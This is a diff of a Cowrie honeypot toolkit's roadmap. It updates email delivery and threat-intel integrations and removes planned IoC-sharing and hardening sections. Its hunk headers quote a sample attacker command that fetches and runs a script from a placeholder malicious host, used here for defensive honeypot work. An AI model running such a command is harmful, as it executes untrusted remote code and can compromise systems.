

Before and after one commit to reuteras/cowrie-deploy-toolkit, a Markdown page: ROADMAP.md, 2 parts joined by grey strips. Shown at 86% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -47,8 +47,8 @@ The first milestone combines daily reporting with essential threat intelligence
 - [x] Report matched rules per file
 
 ### Email Delivery
-- [x] `msmtp` or `sendmail` for direct SMTP
-- [x] Integration with SendGrid/Mailgun API for reliability
+
+- [x] Integration with Scaleway API for reliability
 - [x] HTML email with inline styling (no external dependencies)
 - [x] Cron job: `0 6 * * * /opt/cowrie/scripts/daily-report.py`
 
@@ -133,15 +120,18 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 - [ ] Retention policies (e.g., 90 days on-disk, 1 year archived)
 
 ### Extended Threat Intelligence
-- [ ] Additional threat intel sources:
-  - AbuseIPDB reputation lookup
-  - Shodan host information
-  - GreyNoise classification (benign scanner vs malicious)
-  - AlienVault OTX pulse correlation
+
+Additional threat intel sources:
+
+- AbuseIPDB reputation lookup
+- [ ] Shodan host information
+- [x] GreyNoise classification (benign scanner vs malicious)
+- [ ] AlienVault OTX pulse correlation
 
 ## Future: Honeypot Enhancements
 
 ### Additional Realism
+
 - [ ] Custom txtcmds for more commands (df, free, top, etc.)
 - [ ] Fake MySQL/PostgreSQL databases with sample data
 - [ ] Realistic cron jobs in process list
@@ -150,34 +140,7 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 - [ ] Add files and more from <https://canarytokens.org/nest/>
 
 ### Multiple Honeypot Deployment
+
 - [ ] Deploy fleet across multiple Hetzner locations
 - [ ] Centralized log collection
 - [ ] Configuration management (Ansible playbooks)
-
-## Future: Threat Intelligence Sharing
-
-### IoC Extraction
-- [ ] Automatic IoC extraction from sessions:
-  - URLs from wget/curl commands
-  - IP addresses and domains
-  - File hashes (MD5, SHA1, SHA256)
-
-### Sharing
-- [ ] Export to STIX/TAXII format
-- [ ] Integration with MISP
-- [ ] Contribute to community threat feeds
-  - <https://github.com/cowrie/cowrie/blob/main/src/cowrie/output/greynoise.py>
-  - <https://github.com/cowrie/cowrie/blob/main/src/cowrie/output/dshield.py>
-
-## Future: Security Hardening
-
-### Network Segmentation
-- [ ] Firewall rules to prevent honeypot from attacking outbound
-- [ ] Rate limiting on management port
-- [ ] Fail2ban for management SSH
-
-### Monitoring
-- [ ] Health checks for Cowrie container
-- [ ] Disk space monitoring
-- [ ] Automatic restart on failure
-- [ ] Uptime monitoring (e.g., UptimeRobot, Healthchecks.io)
```
Also changed, not shown: other parts of ROADMAP.md (+0 -13 lines).
